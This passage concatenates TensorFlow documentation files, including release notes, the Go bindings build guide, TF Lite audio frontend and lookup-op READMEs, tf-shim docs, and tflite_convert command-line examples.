  by the public.

* 271 closed issues on github issues.

## Backwards-Incompatible Changes

* `tf.nn.fixed_unigram_candidate_sampler` changed its default 'distortion'
  attribute from 0.0 to 1.0. This was a bug in the original release
  that is now fixed.

* added DeterministicRandomTestTool to migration_utils.py. This is useful when
  you are migrating from TF 1.x to TF2 and need to make sure your computation
  is still happening correctly along the way. See the [validating correctness 
  migration guide](https://www.tensorflow.org/guide/migrate/validate_correctness) 
  for more info.

# Release 0.5.0

Initial release of TensorFlow.
# TensorFlow in Go

Construct and execute TensorFlow graphs in Go.

[](https://godoc.org/github.com/tensorflow/tensorflow/tensorflow/go)

> *WARNING*: The API defined in this package is not stable and can change
> without notice. The same goes for the package path:
> (`github.com/tensorflow/tensorflow/tensorflow/go`).

## Building the TensorFlow C library from source

If the "Quickstart" instructions above do not work (perhaps the release archives
are not available for your operating system or architecture, or you're using a
different version of CUDA/cuDNN), then the TensorFlow C library must be built
from source.

### Prerequisites

-   [bazel](https://www.bazel.build/versions/master/docs/install.html)
-   Environment to build TensorFlow from source code
    ([Linux or macOS](https://www.tensorflow.org/install/source)). If you don't
    need GPU support, then try the following:

    ```sh
    sudo apt-get install python swig python-numpy # Linux
    brew install swig                             # OS X with homebrew
    ```
- [Protocol buffer compiler (protoc) 3.x](https://github.com/google/protobuf/releases/)

### Build

1.  Download the source code

    ```sh
    go get -d github.com/tensorflow/tensorflow/tensorflow/go
    ```

2.  Build the TensorFlow C library:

    ```sh
    cd ${GOPATH}/src/github.com/tensorflow/tensorflow
    ./configure
    bazel build -c opt //tensorflow:libtensorflow.so
    ```

    This can take a while (tens of minutes, more if also building for GPU).

3.  Make `libtensorflow.so` and `libtensorflow_framework.so` available to the
    linker. This can be done by either:

    a. Copying it to a system location, e.g.,

    ```sh
    sudo cp ${GOPATH}/src/github.com/tensorflow/tensorflow/bazel-bin/tensorflow/libtensorflow.so /usr/local/lib
    sudo cp ${GOPATH}/src/github.com/tensorflow/tensorflow/bazel-bin/tensorflow/libtensorflow_framework.so /usr/local/lib
    ```

    OR

    b. Setting environment variables:

    ```sh
    export LIBRARY_PATH=${GOPATH}/src/github.com/tensorflow/tensorflow/bazel-bin/tensorflow
    # Linux
    export LD_LIBRARY_PATH=${GOPATH}/src/github.com/tensorflow/tensorflow/bazel-bin/tensorflow
    # OS X
    export DYLD_LIBRARY_PATH=${GOPATH}/src/github.com/tensorflow/tensorflow/bazel-bin/tensorflow
    ```

4.  Build and test:

    ```sh
    go generate github.com/tensorflow/tensorflow/tensorflow/go/op
    go test github.com/tensorflow/tensorflow/tensorflow/go
    ```

### Generate wrapper functions for ops

Go functions corresponding to TensorFlow operations are generated in `op/wrappers.go`. To regenerate them:

Prerequisites:
- [Protocol buffer compiler (protoc) 3.x](https://github.com/google/protobuf/releases/)
- The TensorFlow repository under GOPATH

```sh
go generate github.com/tensorflow/tensorflow/tensorflow/go/op
```

## Support

Use [Stack Overflow](http://stackoverflow.com/questions/tagged/tensorflow)
and/or [GitHub issues](https://github.com/tensorflow/tensorflow/issues).

## Contributions

Contributions are welcome. If making any signification changes, probably best to
discuss on a [GitHub issue](https://github.com/tensorflow/tensorflow/issues)
before investing too much time. GitHub pull requests are used for contributions.
# TensorFlow Lite

TensorFlow Lite is TensorFlow's lightweight solution for mobile and embedded
devices. It enables low-latency inference of on-device machine learning models
with a small binary size and fast performance supporting hardware acceleration.

See the documentation: https://www.tensorflow.org/lite/
Documentation edits can be made here: [tensorflow/lite/g3doc](./g3doc/)
As of June 25, 2021, the TFLM codebase has moved to a [stand-alone github
repository](https://github.com/tensorflow/tflite-micro).
# Audio "frontend" TensorFlow operations for feature generation
The most common module used by most audio processing modules is the feature
generation (also called frontend). It receives raw audio input, and produces
filter banks (a vector of values).

More specifically the audio signal goes through a pre-emphasis filter
(optionally); then gets sliced into (overlapping) frames and a window function
is applied to each frame; afterwards, we do a Fourier transform on each frame
(or more specifically a Short-Time Fourier Transform) and calculate the power
spectrum; and subsequently compute the filter banks.

## Operations
Here we provide implementations for both a TensorFlow and TensorFlow Lite
operations that encapsulate the functionality of the audio frontend.

Both frontend Ops receives audio data and produces as many unstacked frames
(filterbanks) as audio is passed in, according to the configuration.

The processing uses a lightweight library to perform:

1. A slicing window function
2. Short-time FFTs
3. Filterbank calculations
4. Noise reduction
5. Auto Gain Control
6. Logarithmic scaling

Please refer to the Op's documentation for details on the different
configuration parameters.

However, it is important to clarify the contract of the Ops:

> *A frontend OP will produce as many unstacked frames as possible with the
> given audio input.*

This means:

1. The output is a rank-2 Tensor, where each row corresponds to the
  sequence/time dimension, and each column is the feature dimension).
2. It is expected that the Op will receive the right input (in terms of
  positioning in the audio stream, and the amount), as needed to produce the
  expected output.
3. Thus, any logic to slice, cache, or otherwise rearrange the input and/or
  output of the operation must be handled externally in the graph.

For example, a 200ms audio input will produce an output tensor of shape
`[18, num_channels]`, when configured with a `window_size=25ms`, and
`window_step=10ms`. The reason being that when reaching the point in the
audio at 180ms there’s not enough audio to construct a complete window.

Due to both functional and efficiency reasons, we provide the following
functionality related to input processing:

**Padding.** A boolean flag `zero_padding` that indicates whether to pad the
audio with zeros such that we generate output frames based on the `window_step`.
This means that in the example above, we would generate a tensor of shape
`[20, num_channels]` by adding enough zeros such that we step over all the
available audio and still be able to create complete windows of audio (some of
the window will just have zeros; in the example above, frame 19 and 20 will have
the equivalent of 5 and 15ms full of zeros respectively).

<!-- TODO
Stacking. An integer that indicates how many contiguous frames to stack in the output tensor’s first dimension, such that the tensor is shaped [-1, stack_size * num_channels]. For example, if the stack_size is 3, the example above would produce an output tensor shaped [18, 120] is padding is false, and [20, 120] is padding is set to true.
-->

**Striding.** An integer `frame_stride` that indicates the striding step used to
generate the output tensor, thus determining the second dimension. In the
example above, with a `frame_stride=3`, the output tensor would have a shape of
`[6, 120]` when `zero_padding` is set to false, and `[7, 120]` when
`zero_padding` is set to true.

<!-- TODO
Note we would not expect the striding step to be larger than the stack_size
(should we enforce that?).
-->
# Audio "frontend" library for feature generation

A feature generation library (also called frontend) that receives raw audio
input, and produces filter banks (a vector of values).

The raw audio input is expected to be 16-bit PCM features, with a configurable
sample rate. More specifically the audio signal goes through a pre-emphasis
filter (optionally); then gets sliced into (potentially overlapping) frames and
a window function is applied to each frame; afterwards, we do a Fourier
transform on each frame (or more specifically a Short-Time Fourier Transform)
and calculate the power spectrum; and subsequently compute the filter banks.

By default the library is configured with a set of defaults to perform the
different processing tasks. This takes place with the frontend_util.c function:

```c++
void FrontendFillConfigWithDefaults(struct FrontendConfig* config)
```

A single invocation looks like:

```c++
struct FrontendConfig frontend_config;
FrontendFillConfigWithDefaults(&frontend_config);
int sample_rate = 16000;
FrontendPopulateState(&frontend_config, &frontend_state, sample_rate);
int16_t* audio_data = ;  // PCM audio samples at 16KHz.
size_t audio_size = ;  // Number of audio samples.
size_t num_samples_read;  // How many samples were processed.
struct FrontendOutput output =
    FrontendProcessSamples(
        &frontend_state, audio_data, audio_size, &num_samples_read);
for (i = 0; i < output.size; ++i) {
  printf("%d ", output.values[i]);  // Print the feature vector.
}
```

Something to note in the above example is that the frontend consumes as many
samples needed from the audio data to produce a single feature vector (according
to the frontend configuration). If not enough samples were available to generate
a feature vector, the returned size will be 0 and the values pointer will be
`NULL`.

An example of how to use the frontend is provided in frontend_main.cc and its
binary frontend_main. This example, expects a path to a file containing `int16`
PCM features at a sample rate of 16KHz, and upon execution will printing out
the coefficients according to the frontend default configuration.

## Extra features
Extra features of this frontend library include a noise reduction module, as
well as a gain control module.

**Noise cancellation**. Removes stationary noise from each channel of the signal
using a low pass filter.

**Gain control**. A novel automatic gain control based dynamic compression to
replace the widely used static (such as log or root) compression. Disabled
by default.

## Memory map
The binary frontend_memmap_main shows a sample usage of how to avoid all the
initialization code in your application, by first running
"frontend_generate_memmap" to create a header/source file that uses a baked in
frontend state. This command could be automated as part of your build process,
or you can just use the output directly.
# TF Lite Experimental Unity Plugin

This directory contains an experimental sample Unity (2017) Plugin, based on
the experimental TF Lite C API. The sample demonstrates running inference within
Unity by way of a C# `Interpreter` wrapper.

Note that the native TF Lite plugin(s) *must* be built before using the Unity
Plugin, and placed in Assets/TensorFlowLite/SDK/Plugins/. For the editor (note
that the generated shared library name and suffix are platform-dependent):

```sh
bazel build -c opt //tensorflow/lite/c:tensorflowlite_c
```

and for Android (replace `android_arm` with `android_arm64` for 64-bit):

```sh
bazel build -c opt --config=android_arm //tensorflow/lite/c:tensorflowlite_c
```

If you encounter issues with native plugin discovery on Mac ("Darwin")
platforms, try renaming `libtensorflowlite_c.dylib` to `tensorflowlite_c.bundle`.
# Accelerator allowlisting

Experimental library and tools for determining whether an accelerator engine
works well on a given device, and for a given model.

## Platform-agnostic, Android-first

Android-focused, since the much smaller set of configurations on iOS means there
is much less need for allowlisting on iOS.

## Not just for TfLite

This code lives in the TfLite codebase, since TfLite is the first open-source
customer. It is however meant to support other users (direct use of NNAPI,
mediapipe).
# Code for generating accuracy metric tflite models

This package provides building blocks for generating accuracy metrics used in
the mini-benchmark.
# GPU delegate compatibility database

This package provides data and code for deciding if the GPU delegate is
supported on a specific Android device.

## Customizing the database

-   Convert from checked-in flatbuffer to json by running `flatc -t --raw-binary
    --strict-json database.fbs -- gpu_compatibility.bin`
-   Edit the json
-   Convert from json to flatbuffer `flatc -b database.fbs --
    gpu_compatibility.json`
-   Rebuild ../../../java:tensorflow-lite-gpu
# TensorFlow Lite Converter

The TensorFlow Lite Converter converts TensorFlow graphs into
TensorFlow Lite graphs. There are additional usages that are also detailed in
the usage documentation.

## Usage documentation

Usage information is given in these documents:

*   [Command-line glossary](../g3doc/r1/convert/cmdline_reference.md)
*   [Command-line examples](../g3doc/r1/convert/cmdline_examples.md)
*   [Python API examples](../g3doc/r1/convert/python_api.md)

## Where the converter fits in the TensorFlow landscape

Once an application developer has a trained TensorFlow model, the TensorFlow
Lite Converter will accept
that model and generate a TensorFlow Lite
[FlatBuffer](https://google.github.io/flatbuffers/) file. The converter currently supports
[SavedModels](https://www.tensorflow.org/guide/saved_model#using_savedmodel_with_estimators),
frozen graphs (models generated via
[freeze_graph.py](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/tools/freeze_graph.py)),
and `tf.Keras` model files.  The TensorFlow Lite FlatBuffer file can be shipped
to client devices, generally mobile devices, where the TensorFlow Lite
interpreter handles them on-device.  This flow is represented in the diagram
below.


# TOCO

These files have moved to [../../g3doc/convert](../../g3doc/convert)
# How to use TF Lookup ops in TFLite

The objective of this file is to provide examples to demonstrate how to use TF
Lookup ops in TFLite.

## Supported Tensorflow Lookup ops in TFLite

Here is the supported status of TensorFlow Lookup ops.

<table>
  <tr>
   <td><strong><em>TF Python lookup ops</em></strong>
   </td>
   <td colspan="5" ><strong><em>Supported status</em></strong>
   </td>
  </tr>
  <tr>
   <td rowspan="2" >tf.lookup.StaticHashTable
   </td>
   <td rowspan="2" colspan="5" >Supported only with tensor initializers.
<p>
Supported mapping type: string → int64, int64 → string
   </td>
  </tr>
  <tr>
  </tr>
  <tr>
   <td rowspan="2" >tf.lookup.Hashtable
   </td>
   <td rowspan="2" colspan="5" >Supported only with tensor initializers.
<p>
Supported mapping type: string → int64, int64 → string
   </td>
  </tr>
  <tr>
  </tr>
  <tr>
   <td rowspan="2" >tf.lookup.index_to_string_table_from_tensor
   </td>
   <td rowspan="2" colspan="5" >Supported.
   </td>
  </tr>
  <tr>
  </tr>
  <tr>
   <td rowspan="2" >tf.lookup.index_table_from_tensor
   </td>
   <td rowspan="2" colspan="5" >Supported natively when num_oov_buckets=0 and dtype=dtypes.string.
<p>
For the oov concept, you will need a <a href="https://www.tensorflow.org/lite/guide/ops_select" title="Select TensorFlow operators to use in TensorFlow Lite">Flex delegate</a>.
   </td>
  </tr>
  <tr>
  </tr>
  <tr>
   <td>tf.lookup.StaticVocabularyTable
   </td>
   <td colspan="5" >Supported but you will need a <a href="https://www.tensorflow.org/lite/guide/ops_select" title="Select TensorFlow operators to use in TensorFlow Lite">Flex delegate</a>.
<p>
Use tf.index_table_from_tensor or tf.index_to_string_table_from_tensor instead if possible if you don’t want to use <a href="https://www.tensorflow.org/lite/guide/ops_select" title="Select TensorFlow operators to use in TensorFlow Lite">Flex delegate</a>.
   </td>
  </tr>
  <tr>
   <td>tf.lookup.experimental.DenseHashTable
<p>
tf.contrib.lookup.MutableHashTable
<p>
tf.contrib.lookup.MutableDenseHashTable
   </td>
   <td colspan="5" >Not supported yet.
   </td>
  </tr>
  <tr>
   <td>tf.lookup.IdTableWithHashBuckets
   </td>
   <td colspan="5" >Supported but you need a <a href="https://www.tensorflow.org/lite/guide/ops_select" title="Select TensorFlow operators to use in TensorFlow Lite">Flex delegate</a>.
   </td>
  </tr>
</table>

## Python Sample code

Here, you can find the Python sample code:


*   Static hash table (string → int64)

```
int64_values = tf.constant([1, 2, 3], dtype=tf.int64)
string_values = tf.constant(['bar', 'foo', 'baz'], dtype=tf.string)

initializer = tf.lookup.KeyValueTensorInitializer(string_values, int64_values)
table = tf.lookup.StaticHashTable(initializer, 4)

with tf.control_dependencies([tf.initializers.tables_initializer()]):
  input_string_tensor = tf.compat.v1.placeholder(tf.string, shape=[1])
  out_int64_tensor = table.lookup(input_string_tensor)
```

*   Static hash table, initialized from a file (string → int64)

```
with open('/tmp/vocab.file', 'r') as f:
  words = f.read().splitlines()

string_values = tf.constant(words, dtype=tf.string)

initializer = tf.lookup.KeyValueTensorInitializer(string_values, int64_values)
table = tf.lookup.StaticHashTable(initializer, 4)

with tf.control_dependencies([tf.initializers.tables_initializer()]):
  input_string_tensor = tf.placeholder(tf.string, shape=[1])
  out_int64_tensor = table.lookup(input_string_tensor)
```

*   Index table (string → int64)

```
UNK_ID = -1
vocab = tf.constant(["emerson", "lake", "palmer"])
vocab_table = tf.lookup.index_table_from_tensor(vocab, default_value=UNK_ID)

input_tensor = tf.compat.v1.placeholder(tf.string, shape=[5])

with tf.control_dependencies([tf.initializers.tables_initializer()]):
  out_tensor = vocab_table.lookup(input_tensor)
```

*   Index table, initialized from a file (string → int64)

```
with open('/tmp/vocab.file', 'r') as f:
  words = f.read().splitlines()

UNK_ID = -1
vocab = tf.constant(words)
vocab_table = tf.lookup.index_table_from_tensor(vocab, default_value=UNK_ID)

input_tensor = tf.compat.v1.placeholder(tf.string, shape=[5])

with tf.control_dependencies([tf.initializers.tables_initializer()]):
  out_tensor = vocab_table.lookup(input_tensor)
```

*   Index to string table (int64 → string)

```
UNK_WORD = "unknown"
vocab = tf.constant(["emerson", "lake", "palmer"])
vocab_table = tf.lookup.index_to_string_table_from_tensor(vocab, default_value=UNK_WORD)

input_tensor = tf.compat.v1.placeholder(tf.int64, shape=[1])

with tf.control_dependencies([tf.initializers.tables_initializer()]):
  out_tensor = vocab_table.lookup(input_tensor)
```

*   Index to string table, initialized from a file (int64 → string)

```
with open('/tmp/vocab.file', 'r') as f:
  words = f.read().splitlines()

UNK_WORD = "unknown"
vocab = tf.constant(words)
vocab_table = tf.lookup.index_to_string_table_from_tensor(vocab, default_value=UNK_WORD)

input_tensor = tf.compat.v1.placeholder(tf.int64, shape=[1])

with tf.control_dependencies([tf.initializers.tables_initializer()]):
  out_tensor = vocab_table.lookup(input_tensor)
```

## How to Include Hashtable ops in your TFLite.

Currently, hashtable ops are now a part of the TFLite builtin op set. You don't
need to add hashtable ops manually.
This directory contains optimized implementations for int8 fully integer kernels.

Weight filters of convs are expected to be symmetric per-channel quantized in
the range [-127, 127].
Inputs/activations are expected to be asymmetric per-layer quantized in the
range [-128, 127].

THESE ARE EXPERIMENTAL AND PRONE TO CHANGE.
This directory contains reference implementations for int8 fully integer kernels.

Weight filters of convs are expected to be symmetric per-channel quantized in
the range [-127, 127].
Inputs/activations are expected to be asymmetric per-layer quantized in the
range [-128, 127].

THESE ARE EXPERIMENTAL AND PRONE TO CHANGE.
This folder contains a convenience library called *tf-shim* over TF and TFLite
op kernel APIs.

## Summary

This library creates a shim over the custom op APIs of TF and TFLite so the
developer can write the custom op once with minimal binary or runtime overhead.

An example usage is an input preprocessing op kernel that can be used in
both TF and TFLite.

## Background

When there is a need to implement a logic that is not supported by the TF
builtin ops the alternative is to build a custom op. If that op needs to
run on-device then it needs to be written in C++ against the client API for
custom ops.

For example, feature processing especially for textual input in an ML model
can involve operations that don't lend themselves well to vectorization and the
code, if written as a C++ function, would be much shorter and more readable.

However, Tensorflow and TFLite APIs for creating op kernels are, at the moment,
not identical. This library offers a convenient way to write the kernel once and
adapt it to both TF and TFLite with minimal binary and runtime overhead.

## Implementation

This folder contains two pieces:

1.  `TensorView` as a shim over `::tensorflow::Tensor` and `TfLiteTensor`

2.  `OpKernelShim` class which abstracts the TF and TFLite op kernel APIs.

### TensorView

This class is a *view* over an already allocated tensor in TF or TFLite without
taking any ownership. In that sense it is similar to `std::string_view` but with
the difference that the underlying buffer can be mutable.

Example Usage:

```
::tensorflow::Tensor tf_tensor;
auto t = TensorView::New(&tf_tensor);

auto t_str_mat = t.As<::tensorflow::tstring, /*RANK=*/ 2>();
t(0, 0) = "ab";
t(0, 1) = "cde"


auto t_buffer = t.Data<::tensorflow::tstring>();
t[0] = "ab";
t[1] = "cde"
```

```
TfLiteTensor tflite_tensor;
auto t = TensorView::New(&tflite_tensor);

auto t_int_vec = t.As<int32, /*RANK=*/ 1>();
t(0) = 123;
t(1) = 456

auto t_buffer = t.Data<int32>();
t[0] = 123;
t[1] = 456
```

The `New` is the factory function which based on the type of the input returns
either a `TfTensorView` or a `TfLiteTensorView`.

See the unit tests `tf_tensor_view_test.cc` and `tflite_tensor_view_test.cc` for
more usage.

The string tensor in `TfLiteTensorView` is a bit of special case. Since string
tensors in TfLite are serialized in a specific format, while writing to those
tensors an intermediate buffer is needed to hold intermediate values before all
the strings get serialized. The intermediate string buffers are serialized back
to the TfLite string format once the last remaining `TfLiteTensorView` goes out
of scope. Only then the user can see the string values in the underlying
`TfLiteTensor`. That said, when implementing an op kernel, there is rarely a
need to read back the contents of a mutable output `TfLiteTensor` within the
same code block.

### OpKernelShim

*WARNING: Experimental interface, subject to change*

This class defines the interface which when implemented allows for convenient
adaptation to TF and TFLite op kernels.

Here is an example op kernel implementing this interface:

```
template<TfRuntime R>
class MyOp : public OpKernelShim<MyOp, R> {

  // Attributes declaration (syntax: https://www.tensorflow.org/guide/create_op)
  static std::vector<std::string> Attrs();

  // Input tensors declaration (syntax: https://www.tensorflow.org/guide/create_op)
  static std::vector<std::string> Inputs();

  // Output tensors declaration (syntax: https://www.tensorflow.org/guide/create_op)
  static std::vector<std::string> Outputs();

  // Initializes the op
  absl::Status Init(InitContext* ctx);

  // Runs the operation
  absl::Status Invoke(InvokeContext* ctx);

  // Shape inference
  static absl::Status ShapeInference(ShapeInferenceContext* ctx);
};
```

The class `MyOp` is passing itself to `OpKernelShim` as a template parameter.
This is because `OpKernelShim` is a static interface using the CRTP pattern.
Similarly, the context classes: `InitContext`, `InvokeContext` and
`ShapeInferenceContext` are all static interfaces in the same way.

### Context Interfaces

An op kernel written using this library has access to a number of *context*
objects at various stages of its lifecycle. These context objects are
effectively shims over the existing context objects in TF and TFLite.

#### InitContext
An instance of this class is passed to the op kernel during its initialization.

```
template <typename SubType>
class InitContext {
 public:
  // Read the given attribute and populate the given value.
  template <typename AttrType>
  absl::Status GetAttr(const std::string& attr_name, AttrType* value) const;
};
```

#### InvokeContext
An instance of this class is passed to the op kernel during its invocation.

```
template <typename SubType>
class InvokeContext {
 public:
  // Read an input tensor
  ConstTensorViewOr GetInput(const int idx) const;
  // Get a mutable output tensor
  TensorViewOr GetOutput(const int idx, const Shape& shape) const;
};
```

#### ShapeInferenceContext
An instance of this class is passed to the op kernel during its shape inference.

```
template <typename SubType>
class ShapeInferenceContext {
 public:
  // Read an input tensor shape
  ShapeOr GetInputShape(const int idx) const;
  // Set an output tensor shape
  absl::Status SetOutputShape(const int idx, const Shape& shape);
  // Read an input tensor during shape inference
  ConstTensorViewOr GetInputTensor(const int idx) const;
};
```
This directory contains a fake operation in order to demonstrate and test the
interfaces.

The contents:

## `simple_op.h|cc`

This is where the actual implementation of this op resides

## `simple_tf_op.cc`

The TF op definition which uses `simple_op`.

## `simple_tflite_op.h|cc`

The TFLite op definition which uses `simple_op`.
# TensorFlow Lite API Reference

The API reference documentation provides detailed information for each of the
classes and methods in the TensorFlow Lite library. Choose your preferred
platform from the list below.

*   [Python API reference](/lite/api_docs/python/tf/lite)
*   [Android (Java) API reference](/lite/api_docs/java/org/tensorflow/lite/package-summary)
*   [Swift API reference](/lite/api_docs/swift/Classes)
*   Objective-C API reference (coming soon)
*   [C++ API reference](/lite/api_docs/cc)

We also provide other tools related to TensorFlow Lite.

*   [TensorFlow Lite Model Maker Python API reference](/lite/api_docs/python/tflite_model_maker)
# Converter command line examples

This page shows how to use the TensorFlow Lite Converter in the command line.

_Note: If possible, use the **recommended** [Python API](python_api.md)
instead._

## Command-line tools <a name="tools"></a>

### Starting from TensorFlow 1.9

There are two approaches to running the converter in the command line.

*   `tflite_convert` (**recommended**):
    *   *Install*: TensorFlow using
        [pip](https://www.tensorflow.org/install/pip).
    *   *Example*: `tflite_convert --output_file=...`
*   `bazel`:
    *   *Install*: TensorFlow from
        [source](https://www.tensorflow.org/install/source).
    *   *Example*: `bazel run tensorflow/lite/python:tflite_convert --
        --output_file=...`

*All of the following examples use `tflite_convert` for simplicity.
Alternatively, you can replace '`tflite_convert`' with '`bazel run
tensorflow/lite/python:tflite_convert --`'*

### Prior to TensorFlow 1.9 <a name="pre_tensorflow_1.9"></a>

The recommended approach for using the converter prior to TensorFlow 1.9 is the
[Python API](python_api.md). Only in TensorFlow 1.7, a command line tool `toco`
was available (run `toco --help` for additional details).

## Usage <a name="usage"></a>

### Setup <a name="download_models"></a>

Before we begin, download the models required to run the examples in this
document:

```
echo "Download MobileNet V1"
curl https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_0.50_128_frozen.tgz \
  | tar xzv -C /tmp

echo "Download Inception V1"
curl https://storage.googleapis.com/download.tensorflow.org/models/inception_v1_2016_08_28_frozen.pb.tar.gz \
  | tar xzv -C /tmp
```

### Basic examples <a name="basic"></a>

The following section shows examples of how to convert a basic model from each
of the supported data formats into a TensorFlow Lite model.

#### Convert a SavedModel <a name="savedmodel"></a>

```
tflite_convert \
  --saved_model_dir=/tmp/saved_model \
  --output_file=/tmp/foo.tflite
```

#### Convert a tf.keras model <a name="keras"></a>

```
tflite_convert \
  --keras_model_file=/tmp/keras_model.h5 \
  --output_file=/tmp/foo.tflite
```

#### Convert a Frozen GraphDef <a name="graphdef"></a>

```
tflite_convert \
  --graph_def_file=/tmp/mobilenet_v1_0.50_128/frozen_graph.pb \
  --output_file=/tmp/foo.tflite \
  --input_arrays=input \
  --output_arrays=MobilenetV1/Predictions/Reshape_1
```

Frozen GraphDef models (or frozen graphs) are produced by
[freeze_graph.py](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/python/tools/freeze_graph.py)
and require additional flags `--input_arrays` and `--output_arrays` as this
information is not stored in the model format.

### Advanced examples

#### Convert a quantization aware trained model into a quantized TensorFlow Lite model

If you have a quantization aware trained model (i.e, a model inserted with
`FakeQuant*` operations which record the (min, max) ranges of tensors in order
to quantize them), then convert it into a quantized TensorFlow Lite model as
shown below:

```
tflite_convert \
  --graph_def_file=/tmp/some_mobilenetv1_quantized_frozen_graph.pb \
  --output_file=/tmp/foo.tflite \
  --input_arrays=input \
  --output_arrays=MobilenetV1/Predictions/Reshape_1 \
  --inference_type=INT8 \
  --mean_values=-0.5 \
  --std_dev_values=127.7
```

*If you're setting `--inference_type=UINT8` then update `--mean_values=128` and
`--std_dev_values=127`*

#### Convert a model with \"dummy-quantization\" into a quantized TensorFlow Lite model

If you have a regular float model and only want to estimate the benefit of a
quantized model, i.e, estimate the performance of the model as if it were
quantized aware trained, then perform "dummy-quantization" using the flags
`--default_ranges_min` and `--default_ranges_max`. When specified, they will be
used as default (min, max) range for all the tensors that lack (min, max) range
information. This will allow quantization to proceed and help you emulate the
performance of a quantized TensorFlow Lite model but it will have a lower
accuracy.

The example below contains a model using Relu6 activation functions. Therefore,
a reasonable guess is that most activation ranges should be contained in [0, 6].

```
tflite_convert \
  --graph_def_file=/tmp/mobilenet_v1_0.50_128/frozen_graph.pb \
  --output_file=/tmp/foo.tflite \
  --input_arrays=input \
  --output_arrays=MobilenetV1/Predictions/Reshape_1 \
  --inference_type=INT8 \
  --mean_values=-0.5 \
  --std_dev_values=127.7 \
  --default_ranges_min=0 \
  --default_ranges_max=6
```

*If you're setting `--inference_type=UINT8` then update `--mean_values=128` and
`--std_dev_values=127`*

#### Convert a model with select TensorFlow operators.

Since TensorFlow Lite only supports a limited number of TensorFlow operators,
not every model is convertible. For details, refer to
[operator compatibility](https://www.tensorflow.org/lite/guide/ops_compatibility).
To allow conversion, users can enable the usage of
[certain TensorFlow ops](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/delegates/flex/allowlisted_flex_ops.cc)
in their TensorFlow Lite model, as shown in the following example.

```
tflite_convert \
  --graph_def_file=/tmp/foo.pb \
  --output_file=/tmp/foo.tflite \
  --input_arrays=input \
  --output_arrays=MobilenetV1/Predictions/Reshape_1 \
  --target_ops=TFLITE_BUILTINS,SELECT_TF_OPS
```

When building and running `tflite_convert` with `bazel`, please pass
`--define=tflite_convert_with_select_tf_ops=true` as an additional argument.

```
bazel run --define=tflite_convert_with_select_tf_ops=true tflite_convert -- \
  --graph_def_file=/tmp/foo.pb \
  --output_file=/tmp/foo.tflite \
  --input_arrays=input \
  --output_arrays=MobilenetV1/Predictions/Reshape_1 \
  --target_ops=TFLITE_BUILTINS,SELECT_TF_OPS
```

#### Convert a model with multiple input arrays

The flag `input_arrays` takes in a comma-separated list of input arrays as seen
in the example below. This is useful for models or subgraphs with multiple
inputs. Note that `--input_shapes` is provided as a colon-separated list. Each
input shape corresponds to the input array at the same position in the
respective list.

```
tflite_convert \
  --graph_def_file=/tmp/inception_v1_2016_08_28_frozen.pb \
  --output_file=/tmp/foo.tflite \
  --input_arrays=InceptionV1/InceptionV1/Mixed_3b/Branch_1/Conv2d_0a_1x1/Relu,InceptionV1/InceptionV1/Mixed_3b/Branch_2/Conv2d_0a_1x1/Relu,InceptionV1/InceptionV1/Mixed_3b/Branch_3/MaxPool_0a_3x3/MaxPool,InceptionV1/InceptionV1/Mixed_3b/Branch_0/Conv2d_0a_1x1/Relu \
  --input_shapes=1,28,28,96:1,28,28,16:1,28,28,192:1,28,28,64 \
  --output_arrays=InceptionV1/Logits/Predictions/Reshape_1
```

#### Convert a model with multiple output arrays

The flag `--output_arrays` takes in a comma-separated list of output arrays as
seen in the example below. This is useful for models or subgraphs with multiple
outputs.

```
tflite_convert \
  --graph_def_file=/tmp/inception_v1_2016_08_28_frozen.pb \
  --output_file=/tmp/foo.tflite \
  --input_arrays=input \
  --output_arrays=InceptionV1/InceptionV1/Mixed_3b/Branch_1/Conv2d_0a_1x1/Relu,InceptionV1/InceptionV1/Mixed_3b/Branch_2/Conv2d_0a_1x1/Relu
```

### Convert a model by specifying subgraphs

Any array in the input file can be specified as an input or output array in
order to extract subgraphs out of an input model file. The TensorFlow Lite
Converter discards the parts of the model outside of the specific subgraph. Use
[visualization](#visualization) to identify the input and output arrays that
make up the desired subgraph.

The follow command shows how to extract a single fused layer out of a TensorFlow
GraphDef.

```
tflite_convert \
  --graph_def_file=/tmp/inception_v1_2016_08_28_frozen.pb \
  --output_file=/tmp/foo.pb \
  --input_arrays=InceptionV1/InceptionV1/Mixed_3b/Branch_1/Conv2d_0a_1x1/Relu,InceptionV1/InceptionV1/Mixed_3b/Branch_2/Conv2d_0a_1x1/Relu,InceptionV1/InceptionV1/Mixed_3b/Branch_3/MaxPool_0a_3x3/MaxPool,InceptionV1/InceptionV1/Mixed_3b/Branch_0/Conv2d_0a_1x1/Relu \
  --input_shapes=1,28,28,96:1,28,28,16:1,28,28,192:1,28,28,64 \
  --output_arrays=InceptionV1/InceptionV1/Mixed_3b/concat_v2
```

Note that the final representation in TensorFlow Lite models tends to have
coarser granularity than the very fine granularity of the TensorFlow GraphDef
representation. For example, while a fully-connected layer is typically
represented as at least four separate operations in TensorFlow GraphDef
(Reshape, MatMul, BiasAdd, Relu...), it is typically represented as a single
"fused" op (FullyConnected) in the converter's optimized representation and in
the final on-device representation. As the level of granularity gets coarser,
some intermediate arrays (say, the array between the MatMul and the BiasAdd in
the TensorFlow GraphDef) are dropped.

When specifying intermediate arrays as `--input_arrays` and `--output_arrays`,
it is desirable (and often required) to specify arrays that are meant to survive
in the final form of the model, after fusing. These are typically the outputs of
activation functions (since everything in each layer until the activation
function tends to get fused).

## Visualization <a name="visualization"></a>

### Using `--dump_graphviz_dir`

The first way to get a Graphviz rendering is to pass the `--dump_graphviz_dir`
flag, specifying a destination directory to dump Graphviz rendering to.

```
tflite_convert \
  --graph_def_file=/tmp/mobilenet_v1_0.50_128/frozen_graph.pb \
  --output_file=/tmp/foo.tflite \
  --input_arrays=input \
  --output_arrays=MobilenetV1/Predictions/Reshape_1 \
  --dump_graphviz_dir=/tmp
```

This generates a few files in the destination directory. The two most important
files are `toco_AT_IMPORT.dot` and `/tmp/toco_AFTER_TRANSFORMATIONS.dot`.

-   `toco_AT_IMPORT.dot` represents the original model containing only the
    transformations done at import time. This tends to be a complex
    visualization with limited information about each node. It is useful in
    situations where a conversion command fails.

-   `toco_AFTER_TRANSFORMATIONS.dot` represents the model after all
    transformations were applied to it, just before it is exported. Typically,
    this is a much smaller model with more information about each node.

These can be rendered to PDFs:

```
dot -Tpdf /tmp/toco_*.dot -O
```

And the resulting `.dot.pdf` can be viewed in any PDF viewer, but we suggest one
